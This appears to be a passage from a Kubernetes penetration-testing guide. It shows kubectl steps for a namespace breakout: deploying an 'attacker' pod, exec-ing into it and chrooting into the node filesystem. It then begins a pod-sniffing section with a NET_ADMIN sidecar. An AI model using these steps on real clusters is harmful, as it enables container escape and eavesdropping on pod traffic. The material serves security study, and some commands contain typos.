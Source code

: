 [original yaml source](https://gist.github.com/abhisek/1909452a8ab9b8383a2e94f95ab0ccba)

After that you create the pod

```bash
kubectl apply -f attacker.yaml [-n <namespace>]
```

Now you can switch to the created pod as follows

```bash
kubectl exec -it attacker-pod [-n <namespace>] -- bash # attacker-pod is the name defined in the yaml file
```

And finally you chroot into the node's system

```bash
chroot /root /bin/bash
```

Information obtained from: [Kubernetes Namespace Breakout using Insecure Host Path Volume — Part 1](https://blog.appsecco.com/kubernetes-namespace-breakout-using-insecure-host-path-volume-part-1-b382f2a6e216) [Attacking and Defending Kubernetes: Bust-A-Kube – Episode 1](https://www.inguardians.com/attacking-and-defending-kubernetes-bust-a-kube-episode-1/)

## Sniffing

By default there isn't any encryption in the communication between pods .Mutual authentication, two-way, pod to pod.

#### Create a sidecar proxy app <a href="#create-a-sidecar-proxy-app" id="create-a-sidecar-proxy-app"></a>

Create your .yaml

```bash
kubectl run app --image=bash --comand -oyaml --dry-run=client > <appName.yaml> -- shj -c 'ping google.com'
```

Edit your .yaml and add the uncomment lines:

```yaml
#apiVersion: v1
#kind: Pod
#metadata:
#  name: security-context-demo
#spec:
#  securityContext:
#    runAsUser: 1000
#    runAsGroup: 3000
#    fsGroup: 2000
#  volumes:
#  - name: sec-ctx-vol
#    emptyDir: {}
#  containers:
#  - name: sec-ctx-demo
#    image: busybox
    command: [ "sh", "-c", "apt update && apt install iptables -y && iptables -L && sleep 1h" ]
    securityContext:
      capabilities:
        add: ["NET_ADMIN"]
 #   volumeMounts:
 #   - name: sec-ctx-vol
 #     mountPath: /data/demo
 #   securityContext:
 #     allowPrivilegeEscalation: true
```
